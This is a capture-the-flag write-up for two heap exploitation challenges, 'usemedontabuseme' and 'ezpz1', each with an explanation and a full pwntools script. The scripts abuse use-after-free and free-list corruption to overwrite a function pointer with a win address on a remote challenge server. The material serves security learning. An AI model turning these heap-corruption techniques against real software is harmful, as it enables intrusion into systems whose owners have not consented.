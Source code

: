 # usemedontabuseme

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNy11c2VtZWRvbnRhYnVzZW1lIiwiaXAiOiIyMDIuODcuMTYyLjI4Iiwic2Vzc2lvbiI6IjY1ZTg2OTA0LWY0OTgtNGJmOS05Y2UxLTg3MTIyNDU5NTgwMyJ9.9goGlKsse0NEwy8CH4Hx3pfdU0TDW9I831GzNf0z6To}

## Scenario

Functions are given that allow us to create, rename and delete a certain of each allocated memory structure. We need to leverage the fact that chunk metadata and content are stored in the same location.

## Solution

We are able to view the name of a killed clone. Due to the way free chunks are stored, the pointer of the next free chunk is stored in the same location as the name. This allows us to override the location of the second-next chunk location.  

By allocating a chunk (A), then allocating a chunk (B) that starts `0xc` bytes after (A), we can modify the function pointer. By using the Give Hint functionality, the modified function pointer will be executed

## Script

```python3
#!/usr/bin/python3

'''
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
'''

'''
Data Structure

8 bytes - name
4 bytes - should be 0x6447
4 bytes - function ptr  <-- override to win
'''

# Clones --> []

from pwn import *

addr = {
    'win': 0x8048b98
}

# p = process("./usemedontabuseme")
p = remote("plsdonthaq.me", 7000)

p.recvuntil("Choice: ")

def make(id, string8):
    p.sendline("A")
    p.sendline(str(id))
    p.sendline(string8)
    p.recvuntil("Choice: ")

def kill(id):
    p.sendline("B")
    p.sendline(str(id))
    p.recvuntil("Choice: ")

def name(id, string7):
    p.sendline("C")
    p.sendline(str(id))
    p.sendline(string7)
    p.recvuntil("Choice: ")

def view(id):
    p.sendline("D")
    p.sendline(str(id))
    p.recvuntil("Name: ")
    ret = p.recvline(keepends=False)
    p.recvuntil("Choice: ")
    return ret

def hint(id):
    p.sendline("H")
    p.sendline(str(id))
    p.recvuntil("Choice: ")

def pwnHint(id):
    p.sendline("H")
    p.sendline(str(9))

# Create 3 allocations
make(0, '0000')
make(1, '1111')
make(2, '2222')

# Free the 3 allocations
### Result will be [2]->[1]->[0]
kill(0)
kill(1)
kill(2)

# Leak the addresses of [0] and [1]
addr0 = u32(view(1)[:4])
addr1 = u32(view(2)[:4])

# PWN                                                               # NEW HEAD:[2]->[1]->[0]
make(2, '')                 # Dummy [2]                             # NEW HEAD:[1]->[0]
name(0, p32(addr1 + 0xc))   # [1]->[0]->[1 + 0xc]                   # NEW HEAD:[1]->[0]->[1+0xc]
make(9, 'aaaa')             # Create clone 9 using Chunk [1]        # NEW HEAD:[0]->[1+0xc]
make(0, '')                 # Create clone 0 using Chunk [0]        # NEW HEAD:[1+0xc]
make(1, p32(addr['win']))   # Create clone 1 using Chunk [1 + 0xc]  # NEW HEAD:NULL

'''
# Chunk [1] now contains
aaaa   ...  ...... 
0x6447 ...  win fn
'''
pwnHint(9)

p.interactive()
```

# ezpz1

> Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNy1lenB6MSIsImlwIjoiMjAyLjg3LjE2Mi4yOCIsInNlc3Npb24iOiJiNTgyYjYzNC1iMTRmLTRmNTUtYjk4NC1iODRlNTIzMTRhODQifQ.4rsVwrrOPi4_QH_pnZhEAfXEZ091FrVKrkZkhhqieO0}

## Scenario

The program performs two malloc calls for each question creation.  
When freed, if they are not cleared - their contents can be accessed.  
The order of freeing is also important, as the last freed item becomes the head of the free list.

## Solution

When creating and freeing a question, the two allocated chunks are freed in the wrong order.  
By still having access to previous container chunk, we can set the contents of a new question - which will actually modify the previous container chunk.

## Script

```python3
#!/usr/bin/python3

'''
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
'''

from pwn import *

# p = process("./ezpz1")
p = remote("plsdonthaq.me", 7001)

winAddr = 0x8048a5c

wait = lambda: p.recvuntil("Enter your choice, (or press enter to refresh): ")

def create():
    p.sendline("C")
    wait()

def delete(id):
    p.sendline("D")
    p.sendline(str(id))
    wait()

def set(id, str_0x18):
    p.sendline("S")
    p.sendline(str(id))
    p.sendline(str_0x18)
    wait()

def ask(id):
    p.sendline("A")
    p.sendline(str(id))
    # wait()

wait()

######

create()  # Create question 0 (malloc container0, malloc buffer0)
delete(0) # Delete question 0 (free container0, free buffer0)
'''
    The free list is now
    HEAD:[buffer0]->[container0]
'''

create() # Create question 1 (malloc container1, malloc buffer1)
'''
    Question 1 uses [buffer0] as the container, and [container1] as the buffer
'''

set(1, p32(winAddr)) # Set *[buffer1] to the win address
'''
    But, [buffer1] == [container0]
    So we're setting *[container0] to the win address
'''

ask(0) # Call *[container0]
p.interactive()
```

